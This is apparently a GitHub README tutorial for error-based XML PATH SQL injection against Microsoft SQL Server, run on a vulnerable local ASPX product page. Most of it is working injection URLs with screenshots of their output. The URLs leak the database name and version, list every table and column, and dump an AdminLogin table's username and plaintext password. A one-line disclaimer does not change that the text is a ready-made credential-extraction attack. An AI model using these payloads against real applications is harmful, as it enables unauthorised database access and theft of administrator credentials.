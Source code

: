 # XML-PATH-Injector

Now let's get started the XML Path Injection in MSSQL server, MsSQL it's Microsoft SQL Server in this post i will use error based injection with malicious interogation for manipulation database and extract administrator credentials. I will use a vulnerable aspx app in localhost for this example. I do not support these illegal activities !

 http://localhost/Product.aspx?Id=13 and 1=db_name()--

Using this simple query we will see the name of the database.

![Screenshot from 2024-01-25 10-31-38](https://github.com/LinuxDestroy/XML-PATH-Injector/assets/26278128/d42f8d12-0fd2-41e6-a6db-3c795ab06f89)

Now the database name is "chemtraders" 
Next step i want to see the DB and OS version for this i will use this query:

http://localhost/Product.aspx?Id=13 and @@version=1--

and output is:

![Screenshot from 2024-01-25 10-34-56](https://github.com/LinuxDestroy/XML-PATH-Injector/assets/26278128/94adade4-c58f-49d4-99df-0dcf67fe0c66)

We see "Microsoft SQL Server 2012 ( SP1 )

Now let's get extract Tables name and Columns from DB with one query:

http://localhost/Product.aspx?Id=13 and 1=(select+table_name%2b'::'%2bcolumn_name as t+from+information_schema.columns FOR XML PATH(''))--

and output is:

![Screenshot from 2024-01-25 10-54-54](https://github.com/LinuxDestroy/XML-PATH-Injector/assets/26278128/3fb8189d-d4c9-4e23-b7b4-f692acc6eb26)

Ok now are interested:

AdminLogin ( Table )
UserName ( Column )
Password ( Column )

Let's get dump from this Columns ( UserName and Password ):

http://localhost/Product.aspx?Id=13 and 1=(select+Password,username+from+AdminLogin FOR XML PATH(''))--

Output is:

![Screenshot from 2024-01-25 11-01-25](https://github.com/LinuxDestroy/XML-PATH-Injector/assets/26278128/7704a537-2f76-4bcf-a1e1-886dd15186d4)


Username: admcheter
Password: bweb@chem#123$tre ( this is plaintext )













